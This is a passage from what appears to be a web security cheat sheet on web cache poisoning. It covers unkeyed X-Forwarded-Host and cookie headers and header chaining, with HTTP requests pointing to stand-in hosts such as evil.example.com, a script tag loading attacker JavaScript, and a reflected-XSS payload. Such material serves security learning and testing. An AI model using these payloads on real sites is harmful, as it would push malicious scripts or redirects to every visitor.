 **Step**

  1. Add a cache buster parameter ?cb=1 in the request.
  2. Add X-forwarded-Host header in request.
  3. Add a arbitrary domain (evil.example.com) and send the request.
  4. If the evil.example.com reflected in response page, we can now place our malicious link in it.

```http
GET /assets/js/main.js?cb=1 HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-Host: evil.example.com
```

The malicius link contain with js file will trigger on all users browser if the site is vulnerable to the Web Cache Poisoning.

```js
<script src="https://evil.example.com/assets/js/main.js"></script>
```

**Note:** Remove cache buster before delivering final attack.

## Web cache poisoning with an unkeyed cookie

Cookies are often used to dynamically generate content in a response. If the response of the request is cached, then all subsequent users who tried to access the poisoned page will get the malicious content. 

**Step**
```
  1. Add a cache buster parameter ?cb=1 in the request.
  2. Identify if any cookie value reflecting in the response.
  3. If the cookie value reflected in response page, we can now place our malicious javascript code in it or arbitrary string in it.
```
**Note:** If the cookie header generated in http response, we should add the header in http request and sent a new request.<br>
<br>
Use this payload if the value reflected in a javascript string
```js
someString"-alert(1)-"someString
```
## Web cache poisoning with multiple headers

Identify any unkeyed header using param miner and craft a attack.

**Example:** Suppose there is a hidden ```X-Forwarded-Proto: http``` or ```X-Forwarded-Scheme: http```(This two header overrides the https with http) header that we have discovered manually or using param miner. If we add this header in a request, this will make 302 redirect to the main domain. If we add ```X-Forwarded-Host``` header in it and put our malicious domain, the site will redirected to our malicious domain.<br>
<br>
***Initial Request/Response***
```txt
GET /random HTTP/1.1
Host: innocent-site.com
X-Forwarded-Proto: http

HTTP/1.1 301 moved permanently
Location: https://innocent-site.com/random
```
***Customized Request/Response***
```txt
GET /random HTTP/1.1
Host: innocent-site.com
X-Forwarded-Proto: http
X-Forwarded-Host: evil.com

```